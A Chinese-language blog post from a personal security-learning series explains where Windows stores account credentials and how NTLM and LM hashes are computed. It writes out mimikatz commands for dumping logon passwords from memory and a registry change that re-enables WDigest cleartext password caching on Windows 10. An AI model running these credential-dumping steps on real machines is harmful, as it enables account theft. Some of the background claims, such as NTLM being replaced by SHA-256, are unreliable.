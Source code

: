 ```yaml
---
layout: post  
title: H系列 - Windows系统的账号密码
date: 2022-10-11  
tags:  H系列
---
```

### 你还拥有多少，你还在乎多少。

+ 系统  -- windows 10；

+ Windows登录流程  
![](/images/posts/H-windows/3.webp){:width="80%"} 
  
+ 账号密码文件的存储位置  -- C:\Windows\System32\config\SAM（存储本地所有用户的凭证信息）；    
![](/images/posts/H-windows/1.webp){:width="80%"}   

+ 通过使用 mimikatz.exe 工具可以读取SAM文件；
  
+ SAM文件部分内容样例；  
```
RID : 000001f4
User :Administrator
Hash NTLM : 570a9a65db8fba761c1008a51d4c95ab
```

+ 百度搜索MD5解密，找个解密网站还原密码明文；
![](/images/posts/H-windows/2.webp){:width="80%"} 

+ NTLM-HASH 介绍  

```  
NTLM（Windows NT Lan Manager）哈希是一种用于进行密码验证的加密散列函数，通常在Windows操作系统中使用。它用于在网络中验证用户的身份，并且在早期版本的Windows中广泛使用，但在现代环境中逐渐被更强大和安全性更高的哈希算法取代，如NTLMv2和Kerberos。

NTLM哈希的工作原理如下：

密码哈希化：当用户设置密码时，操作系统将密码转换为一个固定长度的哈希值，即NTLM哈希。这个哈希值是用户密码的散列，无法逆向还原为原始密码。

挑战-响应协议：在进行身份验证时，服务器将生成一个随机的挑战（challenge），并将其发送给客户端。客户端使用其存储的NTLM哈希值对挑战进行哈希化，并将结果发送回服务器。

服务器验证：服务器收到客户端发送的哈希值，使用存储在服务器上的用户的NTLM哈希值进行同样的哈希运算，然后比较两个哈希值是否匹配。如果匹配，则用户被验证成功。

需要注意的是，NTLM哈希算法在安全性方面存在一些问题。它容易受到彩虹表攻击（通过预先计算可能的哈希值并与数据库中的哈希值进行匹配），并且相对较容易破解。由于这些安全隐患，现代网络安全标准更倾向于使用更安全的哈希算法，如SHA-256或SHA-512，并使用更复杂的身份验证机制，如Kerberos。

总之，NTLM哈希是一种早期的密码散列算法，虽然曾经在Windows系统中广泛使用，但现在已被更安全的方法所取代。
```

+ NTLM-HASH 加密原理  

```
1，明文密码：Admin@123
2，将明文转为十六进制格式：41646D696E40313233
3，将十六进制转为Unicode格式（每位后面加两个0）：410064006D0069006E004000310032003300
4，将Unicode字符串进行MD4加密：570a9a65db8fba761c1008a51d4c95ab
```

+ 通过使用 mimikatz.exe 工具可以读取内存数据，下图为win7截图，win10看不到password明文密码；  

```
mimikatz.exe
privilege::debug
sekurlsa::logonPasswords
```
![](/images/posts/H-windows/4.webp){:width="80%"}   

+  LM-HASH 介绍 
![](/images/posts/H-windows/5.webp){:width="80%"}  

+ LM-HASH 加密原理  

```
1，明文密码：Admin@123
2，将明文转为大写：ADMIN@123
3，转为十六进制格式：41444D494E40313233
4，不足14字节(28位)用0补全：41444D494E403132330000000000
5，分两组  
a组:41444D494E4031
b组:32330000000000
6，将每组的十六进制转为二进制
a组:01000001010001000100110101001001010011100100000000110001
b组:00110010001100110000000000000000000000000000000000000000
7，每七个后面加一个0
a组:01000000 10100010 00010010 10101000 10010100 01110010 00000000 01100010
b组:00110010 00011000 11000000 00000000 00000000 00000000 00000000 00000000
a组:0100000010100010000100101010100010010100011100100000000001100010
b组:0011001000011000110000000000000000000000000000000000000000000000
8，再转为十六进制
a组:40A212A894720062
b组:3218C00000000000
9，做DES加密，
使用固定明文 4B47532140232425 （KGS!@#$% 的十六进制数据）对两组数据进行DES加密
a组:6F08D7B306B1DAD4
b组:B75E0C8D76954A50
拼接即得LM-HASH：6F08D7B306B1DAD4B75E0C8D76954A50

```
![](/images/posts/H-windows/6.webp){:width="80%"}  
<br/>
![](/images/posts/H-windows/7.webp){:width="80%"}  

+ win10 如何查看内存明文密码？在cmd（管理员运行 C:\Windows\System32\cmd.exe）中修改注册表信息，重启再抓取即可。 

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
<br/>
![](/images/posts/H-windows/8.webp){:width="80%"}  



<br/>
<br/> 
<br/> 
<br/> 
<br/> 
<br/> 
<br/> 
转载请注明：[劉清揚的博客](http://yuqianglianshou.com) » [ H系列 - Windows系统的账号密码 ](http://yuqianglianshou.com/2022/10/H系列-Windows系统的账号密码/)  
<br/>
